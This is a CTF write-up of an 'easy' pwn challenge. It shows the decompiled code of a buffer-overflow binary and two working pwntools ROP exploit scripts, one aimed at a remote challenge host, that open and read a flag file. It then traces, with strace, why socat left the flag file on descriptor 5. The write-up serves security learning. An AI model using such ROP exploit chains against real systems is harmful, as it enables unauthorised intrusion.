

Tracing file descriptors: A battle against poor writeups
2024-10-05
I was going through an easy (as per the challenge platform, not personal ranking) pwn challenge. After successfully pwning the binary locally, I ran my exploit against the remote challenge service and failed. Referring to the writeup document I found this:

There was no explanation regarding the value of file-descriptor. Thus I went on a quest to trace for the value.
PS: Please bear with me while we fight togther to tally all those numbers :) (I tried my best to redact challenge name)
Context information
We are provided with challenge ELF binary named challengeBinary, and a Dockerfile to create docker container with binary and fake flag.
Executable Mitigation Information
Arch: amd64-64-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
Source code analysis (Decompilation)
-
main()
int __cdecl main(int argc, const char **argv, const char **envp) { char s1[8]; // [rsp+0h] [rbp-40h] BYREF __int64 v5; // [rsp+8h] [rbp-38h] int v6; // [rsp+10h] [rbp-30h] __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF int fd; // [rsp+34h] [rbp-Ch] unsigned __int64 i; // [rsp+38h] [rbp-8h] banner(argc, argv, envp); buf[0] = 0LL; buf[1] = 0LL; fd = open("/dev/urandom", 0); read(fd, buf, 8uLL); printf("\n[Strange man in mask screams some nonsense]: %s\n\n", (const char *)buf); close(fd); *(_QWORD *)s1 = 0LL; v5 = 0LL; v6 = 0; printf("[Strange man in mask]: In order to proceed, tell us the secret phrase: "); __isoc99_scanf("%16s", s1); for ( i = 0LL; i <= 0xE; ++i ) { if ( s1[i] == 10 ) { s1[i] = 0; break; } } if ( !strncmp(s1, "s34s0nf1n4l3b00", 0xFuLL) ) challenge_function(); else printf("%s\n[Strange man in mask]: Sorry, you are not allowed to enter here!\n\n", "\x1B[1;31m"); return 0; }- The program opens up
/dev/randomat provides the user with 8 bytes of randomness - It asks for a secret phrase (compared with
s34s0nf1n4l3b00), if the phrase matches- It calls challenge_function()
- The program opens up
-
challenge_function()
ssize_t challenge_function() { char buf[64]; // [rsp+0h] [rbp-40h] BYREF printf("\n[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [%p]", buf); printf("\n\n[Strange man in mask]: Now, tell us a wish for next year: "); fflush(stdin); fflush(_bss_start); read(0, buf, 0x1000uLL); return write(1, "\n[Strange man in mask]: That's a nice wish! Let the Spooktober Spirit be with you!\n\n", 0x54uLL); }- It discloses a stack address (of input buffer).
- It reads 4096 bytes into a 64 byte array.
Vulnerability
As NX is enabled, but it is a No PIE binary, we can possibly ROP. We also have stack address leak to store data in our ropchain.
Exploitation
Exploit Development
We do not have a pop rdi ; ret gadget, but the moment challenge_function() returns, RDX stores 0x54 which would suffice for us, if flag is larger in size we would have to read it in 84 byte chunks, not an issue :).
The call to open() sets RDX to 0, so we return back to challenge_function() and send a second ropchain to read the flag from opened file.
import pwn
pwn.context.terminal = ['tmux', 'splitw', '-h']
exe = "./challengeBinary"
elf = pwn.context.binary = pwn.ELF(exe)
proc = pwn.process(exe)
proc.sendline(b"s34s0nf1n4l3b00") # secret phrase
proc.readuntil(b"[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [")
buffer_address = int(proc.readuntil(b']').decode()[:-1], 16)
pwn.log.info(f"Buffer's stack address provided: {hex(buffer_address)}")
# GADGETS =====================================================================
pop_rdi = 0x00000000004011f2
pop_rsi = 0x00000000004011f4
open_plt = 0x4010e0
read_plt = 0x401090
write_plt = 0x401050
padding = 64 + 8 # buffer size + RBP size
ropchain_stage1 = pwn.flat({
0: [
b"flag.txt\0",
b'a' * (padding - len(b"flag.txt\0")),
pwn.p64(pop_rdi),
pwn.p64(buffer_address),
pwn.p64(pop_rsi),
pwn.p64(0),
pwn.p64(open_plt), # open("flag.txt", O_RDONLY), file descriptor returned for "flag.txt" would be 3 if program closed all the files it had opened before this call
pwn.p64(elf.symbols["finale"])
]
}) # call to open() sets RDX to 0
proc.sendline(ropchain_stage1)
proc.readrepeat(1)
ropchain_stage2 = pwn.flat({
padding: [
pwn.p64(pop_rdi),
pwn.p64(3),
pwn.p64(pop_rsi),
pwn.p64(buffer_address),
pwn.p64(read_plt), # read(3, buffer, 84), rdx was set to 84 already and we lacked any gadget to modify it
pwn.p64(pop_rdi),
pwn.p64(1),
pwn.p64(pop_rsi),
pwn.p64(buffer_address),
pwn.p64(write_plt), # write(stdout, buffer, 84)
]
})
proc.sendline(ropchain_stage2)
proc.readuntil(b"That's a nice wish! Let the Spooktober Spirit be with you!\n\n");
pwn.log.info(f"FLAG: {proc.readline().decode()}"
The script worked locally, but failed on remote instance.
Troubleshooting
I made slight change to the Dockerfile to install strace and use it to trace my calls
FROM ubuntu:20.04
ENV DEBIAN_FRONTEND noninteractive
RUN apt-get update --fix-missing && apt-get -y upgrade
RUN apt-get install -y socat strace
RUN useradd -m ctf
COPY challenge/* /home/ctf/
RUN chown -R ctf:ctf /home/ctf/
WORKDIR /home/ctf
USER ctf
EXPOSE 9001/tcp
ENTRYPOINT ["strace", "-f", "socat", "TCP-LISTEN:9001,fork", "EXEC:'./challengeBinary'"]
When I ran my exploit against the docker container, I observed that contrary to my assumption of fd being 3, when flag.txt was opened it was assigned 5 fd number.
~$ docker run -it -p 9001:9001 --rm --name=challengeBinary challenge | grep open
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libwrap.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libutil.so.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libssl.so.1.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcrypto.so.1.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libnsl.so.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
[pid 11] openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 5
[pid 11] openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 5
[pid 11] openat(AT_FDCWD, "/dev/urandom", O_RDONLY <unfinished ...>
[pid 11] <... openat resumed>) = 5
[pid 11] openat(AT_FDCWD, "flag.txt", O_RDONLY <unfinished ...>
[pid 11] <... openat resumed>) = 5
Updating the exploit script, it worked for remote instance
Final exploit script
import pwn
pwn.context.terminal = ['tmux', 'splitw', '-h']
exe = "./challengeBinary"
elf = pwn.context.binary = pwn.ELF(exe)
proc = pwn.remote("83.136.251.168", 39139)
proc.sendline(b"s34s0nf1n4l3b00") # secret phrase
proc.readuntil(b"[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [")
buffer_address = int(proc.readuntil(b']').decode()[:-1], 16)
pwn.log.info(f"Buffer's stack address provided: {hex(buffer_address)}")
# GADGETS =====================================================================
pop_rdi = 0x00000000004011f2
pop_rsi = 0x00000000004011f4
open_plt = 0x4010e0
read_plt = 0x401090
write_plt = 0x401050
padding = 64 + 8 # buffer size + RBP size
ropchain_stage1 = pwn.flat({
0: [
b"flag.txt\0",
b'a' * (padding - len(b"flag.txt\0")),
pwn.p64(pop_rdi),
pwn.p64(buffer_address),
pwn.p64(pop_rsi),
pwn.p64(0),
pwn.p64(open_plt), # open("flag.txt", O_RDONLY), file descriptor returned for "flag.txt" 5 (found from troubleshooting)
pwn.p64(elf.symbols["finale"])
]
}) # call to open() sets RDX to 0
with open("exploit", "wb+") as f:
f.write(b"s34s0nf1n4l3b00\n")
f.write(ropchain_stage1)
proc.sendline(ropchain_stage1)
proc.readrepeat(1)
ropchain_stage2 = pwn.flat({
padding: [
pwn.p64(pop_rdi),
pwn.p64(5),
pwn.p64(pop_rsi),
pwn.p64(buffer_address),
pwn.p64(read_plt), # read(5, buffer, 84), rdx was set to 84 already and we lacked any gadget to modify it
pwn.p64(pop_rdi),
pwn.p64(1),
pwn.p64(pop_rsi),
pwn.p64(buffer_address),
pwn.p64(write_plt), # write(stdout, buffer, 84)
]
})
proc.sendline(ropchain_stage2)
proc.readuntil(b"That's a nice wish! Let the Spooktober Spirit be with you!\n\n");
pwn.log.info(f"FLAG: {proc.readline().decode()}")
Digging deeper
Why did open() return
5?
Upon reading through strace logs, I found that socat registered 3, 4 for socketpair (socketpair are 2 file descriptors used for inter-process communication, they are bi-directional in nature. Usually before forking a process creates a pair and then parent and child use one fd from the pair for read/write while close the other), while 5 was used for socket connection, and the newly created conenction was assigned 6.
socketpair(AF_UNIX, SOCK_DGRAM, 0, [3, 4]) = 0
...
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 5
bind(5, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
getsockname(5, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("0.0.0.0")}, [16]) = 0
listen(5, 5)
...
accept(5, {sa_family=AF_INET, sin_port=htons(42340), sin_addr=inet_addr("172.17.0.1")}, [16]) = 6
Once I run my exploit, 2 new processes are created PID 9, 10
PID 9 closed the socket connection and was out of the picture.
[pid 9] close(6) = 0
Meanwhile, PID 10 (returned by the original clone() call), closed 3, 4 and re-registered the socketpair. It further registered a new socket pair 5, 7 after closing the socket 5. But this one kept fd 6 pointing to current connection. Next, it **clone()**s again to create PID 11. Finally it closes 7, thus it would be using 5 for communication
clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7f06e36fda10) = 10
[pid 10] close(4 <unfinished ...>
[pid 10] <... close resumed>) = 0
[pid 10] close(3) = 0
[pid 10] socketpair(AF_UNIX, SOCK_DGRAM, 0, [3, 4]) = 0
...
[pid 10] close(5) = 0
[pid 10] socketpair(AF_UNIX, SOCK_STREAM, 0, [5, 7]) = 0
...
[pid 10] clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLDstrace: Process 11 attached
<unfinished ...>
...
[pid 10] close(7)
And finally, PID 11 closed 3, 4, 5 (socketpairs created by PID 10). Re-creates two socketpairs 3-4. Duplicated 7 as stdin and stdout and closed 7. Finally PID 11 loads finale binary into memory.
[pid 11] close(4 <unfinished ...>
[pid 11] <... close resumed>) = 0
[pid 11] close(3 <unfinished ...>
[pid 11] <... close resumed>) = 0
...
[pid 11] socketpair(AF_UNIX, SOCK_DGRAM, 0 <unfinished ...>
[pid 11] <... socketpair resumed>, [3, 4]) = 0
...
[pid 11] close(5 <unfinished ...>
[pid 11] <... close resumed>) = 0
...
[pid 11] dup2(7, 0 <unfinished ...>
[pid 11] <... dup2 resumed>) = 0
[pid 11] dup2(7, 1 <unfinished ...>
[pid 11] <... dup2 resumed>) = 1
[pid 11] close(7) = 0
[pid 11] execve("./challengeBinary", ["./challengeBinary"], 0x5603cdb74e40 /* 12 vars */ <unfinished ...>
When finale was loaded, it had following file descriptors
- 0 - pointing to socketpair to communicate with PID 10
- 1 - pointing to socketpair to communicate with PID 10
- 2 - stderr
- 3 - pointing to socketpair it (PID 11) created
- 4 - pointing to socketpair it (PID 11) created
- 5 - FREE
Thus, 5 was allocated to all subsequent **open()**s